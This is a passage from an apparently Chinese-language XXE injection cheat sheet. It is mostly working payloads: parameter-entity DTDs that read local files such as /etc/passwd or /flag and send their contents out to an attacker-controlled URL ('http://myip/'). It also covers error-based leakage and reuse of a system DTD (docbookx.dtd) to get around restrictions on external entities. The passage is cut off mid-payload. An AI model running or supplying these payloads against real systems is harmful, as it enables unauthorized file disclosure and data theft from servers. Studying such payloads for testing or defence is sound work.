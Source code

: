 ```
    <!ENTITY % outside '<!ENTITY &#x25; files SYSTEM "file:///etc/passwd">'>
]>
```
禁止调用同级实体，无法直接读取文件数据通过http回传我们的服务器，所以要用外部实体才能读取数据。     

#### Payload1：    
my.dtd放于自己服务器的外部实体：   
```
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://myip/?%file;'>">
%start;
```
注入的内容：   
```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "http://myip/my.dtd">  //调用我们的dtd
    <!ENTITY % file SYSTEM "file:///flag">
    %remote;
    %send;
]>
```
#### Payload2:  
这里已经是三层参数实体嵌套了，第二层嵌套时我们只需要给定义参数实体的%编码，第三层就需要在第二层的基础上将所有%、&、’、” html编码    
ubuntu系统自带的/usr/share/yelp/dtd/docbookx.dtd 包含%ISOamso       
```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "/usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % file SYSTEM "file:///flag">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; send SYSTEM &#x27;http://myip/?&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;send;
    '> 
    %remote;
]>
```

### 3.报错回显读取文件-XXE Base Error 
基于报错的原理和OOB类似，OOB通过构造一个带外的url将数据带出，而基于报错是构造一个错误的url并将泄露文件内容放在url中，通过这样的方式返回数据。   
#### Payload1：    
my.dtd放于自己服务器的外部实体：   
```
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'file:///re.about/%file;'>">
%start;
```
注入的内容：   
```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "http://myip/my.dtd">
    <!ENTITY % file SYSTEM "file:///flag">
    %remote;
    %send;
]>
```
#### Payload2:  
这里已经是三层参数实体嵌套了，第二层嵌套时我们只需要给定义参数实体的%编码，第三层就需要在第二层的基础上将所有%、&、’、” html编码    
ubuntu系统自带的/usr/share/yelp/dtd/docbookx.dtd 包含%ISOamso       
```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "/usr/share/yelp/dtd/docbookx.dtd">
```